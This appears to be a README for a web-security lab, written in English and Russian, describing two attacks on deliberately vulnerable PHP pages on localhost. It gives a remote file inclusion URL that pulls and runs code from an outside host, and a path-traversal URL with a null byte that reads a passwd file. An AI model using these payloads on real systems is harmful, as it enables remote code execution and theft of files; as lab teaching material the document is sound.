 These are test tasks on web security. Description and instructions for reproducing the attack follows.
All the tasks are tested and worked on OpenServer 4.8.7, though the configuration of the server doesn't matter.
The server name is assumed to be 'localhost'.

Task 1
Участвующие файлы:
task1.php, располагается в корневой папке атакуемого сервера.
На сервере должны быть включены register_globals, allow_url_fopen и allow_url_include.
 
Для взлома данная страница открывается через url
http://localhost/task1.php?file_to_open=http://biomechanics.ru/listof.php
В данных настройках это приведет к подключению удаленного файла listof.php в скрипт task1.php и его исполнению.
Для атаки нужно знать имя переменной file_to_open


Task 2
Участвующие файлы:
task2.php, располагается в корневой папке атакуемого сервера.
passwd, располагается в папке на один уровень выше (предположительно недоступной для просмотра веб-пользователям).

Для взлома используется вставка нулевого байта в нотации C++ в плохо экранированную строку, которая используется в параметре функции require_once. Для этого страница открывается через url
http://localhost/task2.php?file=../passwd%00
 
При этом файл passwd выдается на страницу. В результате получается следующий вывод:
"admin	pass task2 worked"
